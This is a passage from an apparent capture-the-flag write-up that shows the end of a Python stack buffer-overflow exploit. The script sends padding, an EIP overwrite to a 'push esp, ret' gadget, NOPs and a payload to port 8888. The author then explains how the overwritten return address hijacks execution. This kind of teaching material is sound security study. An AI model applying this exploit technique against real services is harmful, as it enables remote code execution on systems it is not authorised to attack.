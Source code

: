     overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

    buf = padding1 + EIP + NOPS + payload + overrun 

    try:
            s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target,8888))
            s.send(buf)
    except Exception as e:
            print(sys.exc_value)



Very simply, it opens a connect to the target on port 8888, it sends a
buffer, and it's done.

The buffer is made up of 1052 bytes of no-op (nop, padding), then the
address of a `push esp, ret` gadget, some nops, the payload, and then
some more filler.

Without looking at the binary, this suggests that the stack before and
after user input is read looks like this:

![](/img/image-20200719164839522.png)

Now when the function returns, it will go to to the gadget, which will
push `$esp` to the stack (which will now be at the top of the nops
before the payload), and then return, moving the instruction pointer,
`$eip`, to the nops followed by the payload.
